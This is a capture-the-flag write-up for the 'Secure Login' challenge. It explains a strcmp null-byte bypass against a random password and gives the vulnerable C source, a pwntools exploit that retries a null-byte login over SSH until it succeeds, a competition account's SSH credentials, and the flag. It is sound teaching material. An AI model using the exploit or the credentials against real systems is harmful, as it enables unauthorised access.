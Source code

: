 # Secure Login

My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

Try to hack me at /problems/2021/secure_login on the shell server.

Author: kmh

## Challenge

We are given a binary which checks user input against a randomly generated password.
If `strcmp` returns 0, we are given the flag.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Source code

```c
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}
```

## Solution

It is not practical to guess the 128 bytes from `/dev/urandom`.
However, `strcmp` stops when it reaches a null byte, as C strings are null-terminated.

As `/dev/urandom` can contain null bytes, there is a 1/256 chance of getting a passcode with a null byte as the first character.
By trying passcodes which also begin with a null byte, we have a 1/256 chance of succeeding on any attempt.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host shell.actf.co --port 22 --user team7879 --pass b7e28bc2e8075bb3c9fb --path /problems/2021/secure_login/login
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('login')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'shell.actf.co'
port = int(args.PORT or 22)
user = args.USER or 'team7879'
password = args.PASSWORD or 'b7e28bc2e8075bb3c9fb'
remote_path = '/problems/2021/secure_login/login'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Execute the target binary on the remote host'''
    if args.GDB:
        return gdb.debug([remote_path] + argv, gdbscript=gdbscript, ssh=shell, *a, **kw)
    else:
        return shell.process([remote_path] + argv, *a, **kw, cwd = '/problems/2021/secure_login/')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

win = False

while not win:
    io = start()
    io.recvuntil('!\n')
    io.sendline('\x00')
    res = io.recvline().decode()
    if "Wrong" not in res:
        win = True
        print(res)
    io.close()

io.interactive()
```

## Flag

`actf{if_youre_reading_this_ive_been_hacked}`

